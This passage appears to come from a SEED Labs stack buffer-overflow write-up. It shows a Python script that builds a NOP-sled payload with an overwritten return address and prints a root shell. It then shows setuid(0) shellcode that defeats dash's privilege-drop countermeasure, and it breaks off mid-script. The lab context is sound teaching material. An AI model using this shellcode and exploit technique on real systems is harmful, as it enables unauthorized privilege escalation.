 ```python

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

##### Change the ret and offset values to the correct ones! #####
#################################################################
ret    = 0xbfffea18 + 100      # 0xbfffea7c
offset = 38 + 4                # 0xbfffea18 - 0xbfffe9f2 (as dec) + 4

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

```console
seed@VM$ exploit.py
seed@VM$ ./stack
# whoami
root
```

## Task 3: Defeating `dash`'s Countermeasure

Reset the symbolic for `sh` from `zsh` to `dash`. Observe the user is not `root`:

```console
seed@VM$ sudo ln -sf /bin/dash /bin/sh
seed@VM$ ./stack
$ whoami
seed
```

Modify the exploit script to invoke the `seuid(0)` in the shellcode before the `execve()` invocation:

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0" # Line 1: xorl %eax,%eax */
  "\x31\xdb" # Line 2: xorl %ebx,%ebx */
  "\xb0\xd5" # Line 3: movb $0xd5,%al */
  "\xcd\x80" # Line 4: int $0x80 */
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
```